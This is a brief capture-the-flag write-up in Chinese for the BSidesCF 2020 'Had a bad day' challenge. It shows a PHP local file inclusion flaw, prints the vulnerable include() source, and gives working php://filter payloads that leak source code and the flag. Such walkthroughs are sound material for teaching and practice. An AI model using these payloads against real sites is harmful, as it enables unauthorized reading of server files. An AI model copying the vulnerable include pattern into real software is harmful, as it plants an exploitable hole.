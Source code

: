# [BSidesCF 2020]Had a bad day 1

- 进入网页，点击 `woofers` 出现一张狗狗的照片，~~可爱捏~~，在url栏发现GET传参

> <img src="../../IMG3/Screenshot 2024-06-16 191746.png">

- 可能存在Sql注入或者文件包含漏洞，经过尝试后，发现是文件包含漏洞

> <img src="../../IMG3/Screenshot 2024-06-16 191950.png">

- 首先使用伪协议查看 `index.php` 的源码，注意这里已经添加了后缀 `.php`

`?category=php://filter/convert.base64-encode/resource=index`

```php
<?php
$file = $_GET['category'];

if(isset($file))
{
	if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
		include ($file . '.php');
	}
	else{
		echo "Sorry, we currently only support woofers and meowers.";
	}
}
?>
```

- 可以看出这道题的文件名中必须包含 `woofers` 、 `meowers` 或者 `index` ，payload如下

`?category=php://filter/convert.base64-encode/index/resource=flag`

> <img src="../../IMG3/Screenshot 2024-06-16 192848.png">

- 解码得到flag

> <img src="../../IMG3/Screenshot 2024-06-16 192939.png">